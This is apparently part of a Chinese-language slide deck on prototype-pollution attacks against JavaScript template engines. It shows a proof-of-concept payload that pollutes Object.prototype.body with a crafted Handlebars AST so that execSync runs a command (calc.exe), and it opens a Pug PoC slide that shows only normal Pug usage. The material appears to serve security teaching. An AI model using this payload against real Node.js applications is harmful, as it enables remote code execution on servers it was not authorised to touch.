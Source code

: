```js {hide|1-15|17-30|32-48|50-67|69-83|85-113}{lines:true, maxHeight:'80%'}
// 无限内嵌 Hash 类型
Object.prototype.body = [
  {
    type: "MustacheStatement",
    params: [
      {
        type: "Hash",
        pairs: [
          {
            value: {
              type: "Hash",
              pairs: [
                {
                  value: {
                    type: "NumberLiteral",
                    value:
                      "console.log(process.mainModule.require('child_process').execSync('calc.exe').toString())",
                  },
                },
              ],
            },
          },
        ],
      },
    ],
    path: 0,
    loc: { start: 0 },
  },
];
```

---
layout: two-cols-header
---

#### Pug PoC

::left::

<v-clicks>

- 一般使用 Pug 模板引擎的方法如下：

  ```js {*}{lines:true}
  const pug = require("pug");

  const source = `h1= msg`;

  var fn = pug.compile(source);
  var html = fn({ msg: "It works" });

  console.log(html); // <h1>It works</h1>
  ```
